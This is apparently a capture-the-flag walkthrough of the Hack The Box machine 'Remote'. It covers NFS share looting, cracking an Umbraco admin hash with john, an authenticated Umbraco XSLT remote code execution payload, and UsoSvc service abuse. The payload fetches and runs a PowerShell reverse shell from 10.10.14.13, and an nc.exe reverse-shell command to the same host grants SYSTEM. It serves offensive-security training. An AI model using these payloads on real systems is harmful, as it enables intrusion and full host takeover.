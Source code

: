 # Remote

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.150
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 04:27 EDT
Warning: 10.129.227.150 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.227.150
Host is up (0.035s latency).
Not shown: 65026 closed tcp ports (conn-refused), 494 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
```

### NFS

Network File System was publicly available on port 2049, and this is not a port I see often. This service can have very interesting files and permissions, so let's enumerate it via `showmount`.&#x20;

```
$ showmount -e 10.129.227.150
Export list for 10.129.227.150:
/site_backups (everyone)
```

We can mount onto this and view the files inside:

```
$ sudo mount -t nfs 10.129.227.150:/site_backups /mnt/
$ ls -la
total 159
drwx------  2 nobody 4294967294  4096 Feb 23  2020 .
drwxr-xr-x 19 root   root       36864 Apr 22 05:16 ..
drwx------  2 nobody 4294967294    64 Feb 20  2020 App_Browsers
drwx------  2 nobody 4294967294  4096 Feb 20  2020 App_Data
drwx------  2 nobody 4294967294  4096 Feb 20  2020 App_Plugins
drwx------  2 nobody 4294967294    64 Feb 20  2020 aspnet_client
drwx------  2 nobody 4294967294 49152 Feb 20  2020 bin
drwx------  2 nobody 4294967294  8192 Feb 20  2020 Config
drwx------  2 nobody 4294967294    64 Feb 20  2020 css
-rwx------  1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------  1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Media
drwx------  2 nobody 4294967294    64 Feb 20  2020 scripts
drwx------  2 nobody 4294967294  8192 Feb 20  2020 Umbraco
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Umbraco_Client
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Views
-rwx------  1 nobody 4294967294 28539 Feb 20  2020 Web.config
```

We can go through each of the folders, and we would find an SDF file for Umbraco within `App_Data`, which normally contains hashes.

```
$ ls    
cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf
```

If we use `strings` on it, we would find a load of input. At the top, it seems that there are SHA1 hashes present:

{% code overflow="wrap" %}
```
$ strings Umbraco.sdf
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```
{% endcode %}

The hash can be cracked via `john`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (?)     
1g 0:00:00:00 DONE (2023-05-02 04:34) 1.538g/s 15113Kp/s 15113Kc/s 15113KC/s baconandchipies1..baconandcabbage
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. 
```

So now we have some credentials at least.

### Umbraco RCE

There were hints that Umbraco was used to host the sites, so let's view port 80. It seems to be a blog page:

<figure><img src="../../../.gitbook/assets/image (28) (2).png" alt=""><figcaption></figcaption></figure>

The login page for the website is located at the `/Umbraco` directory. We can login with the credentials and email we found earlier.

<figure><img src="../../../.gitbook/assets/image (44) (7).png" alt=""><figcaption></figcaption></figure>

After logging in, we can enumerate the version that it is running.

<figure><img src="../../../.gitbook/assets/image (30) (2).png" alt=""><figcaption></figcaption></figure>

This version of Umbraco is vulnerable to an Authenticated RCE exploit:

```
$ searchsploit umbraco  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)        | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution | aspx/webapps/46153.py
```

We can use the PoC for the first one, and edit it for this machine.

```python
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "-c iex (iwr http://10.10.14.13/rev.ps1 -usebasicparsing)"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.129.227.150";
```

Take note of the `cmd` and `FileName` parameter in the `payload` variable. In my case I just used Powershell to download and execute a reverse shell script.

<figure><img src="../../../.gitbook/assets/image (35) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PowerUp

We can first enumerate our privileges as the user:

```
PS C:\windows\tasks> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disable
```

We see that we have a ton of privileges, and most importantly SeImpersonatePrivilege is enabled. This means that we probably have some cotnrol over services and this could be used for PE. I used `PowerUp.ps1` to exploit this system.&#x20;

```
PS C:\windows\tasks> wget 10.10.14.13:8000/powerup.ps1 -O powerup.ps1
PS C:\windows\tasks> . .\powerup.ps1
PS C:\windows\tasks> Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 1580
ProcessId   : 4156
Name        : 4156
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
```

We have control over the `UsoSvc` service. With this, we can run commands as the SYSTEM user. All we need to do is download `nc.exe` to the machine and run it as the administrator.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">wget 10.10.14.13/nc64.exe -O nc.exe
<strong>Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command 'C:\Windows\Tasks\nc.exe 10.10.14.13 4444 -e cmd.exe'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (10) (4).png" alt=""><figcaption></figcaption></figure>

Rooted!
